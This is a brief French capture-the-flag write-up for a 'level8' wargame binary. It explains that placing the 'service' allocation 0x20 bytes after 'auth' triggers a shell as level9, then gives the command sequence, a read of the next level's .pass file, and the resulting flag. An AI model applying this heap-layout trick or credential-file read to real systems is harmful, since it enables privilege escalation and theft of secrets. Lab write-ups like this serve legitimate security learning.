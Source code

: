 # Analyse du code

Apres analyse de code nous voyons que pour ouvrir le shell en tant que level9
il faut que auth + 0x20 = service
Ensuite nous mettons login

auth avec espace
service avec espace

# Exploit
	```bash
	$ ./level8
	auth
	service
	service
	login
	$	cat /home/user/level9/.pass
	```
	c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a

	